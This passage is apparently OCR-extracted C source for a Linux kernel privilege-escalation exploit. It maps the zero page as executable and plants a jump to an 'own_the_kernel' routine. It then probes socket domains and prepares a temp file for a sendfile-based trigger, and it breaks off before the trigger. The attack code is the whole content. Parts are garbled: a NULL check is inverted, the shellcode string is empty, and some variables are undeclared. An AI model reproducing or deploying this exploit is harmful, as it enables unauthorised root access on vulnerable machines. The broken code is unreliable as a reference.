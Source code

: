     const char *shellcode =
    "";
    int shellcode_size = 0;

    int main() {
        int i = 0;
        int d;
        int in_fd, out_fd;
        char *mapped;
        char template[] = "/tmp/sendfile.XXXXXX";
        int (*func)();

        uid = getuid(), gid = getgid();

        mapped = mmap(NULL , 0x1000,
                PROT_READ | PROT_WRITE | PROT_EXEC,
                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS,
                0, 0
            );
        if (mapped == NULL) {
            printf("Mapped zero page!\n");
        } else {
            exit(1);
        }

        // jmp dword near [dword 0x8]
        mapped[0] = '\xff';
        mapped[1] = '\x25';
        *(unsigned long *)&mapped[2] = 8;
        *(unsigned long *)&mapped[8] = (unsigned long)own_the_kernel;

        for (i = 0; i < 16; i++) {
            printf("\\\\x%02x", (unsigned char)mapped[i]);
        }
        printf("\n");

        for (d = 0; domains[d] != DOMAINS_STOP; d++) {
            //printf("Next domain ... ");
            out_fd = socket(domains[d], SOCK_DGRAM, 0);
            if (out_fd > 0) {
                printf("Got domain[%d]\n", d);
                break;
            }
            if (out_fd < 0) {
                printf("out_fd: %d, Errno: %d\n", out_fd, errno);
                exit(1);
            }
        }
        unlink(template);
        // Couldn't get mkstemp to work, just use open(2) for now
        in_fd = open(template, O_CREAT | O_RDWR, 0777);
        printf("Opened temp file: %d\n", in_fd);
        unlink(template);
        printf("Calling ftruncate\n");
        ftruncate(in_fd, 4096);
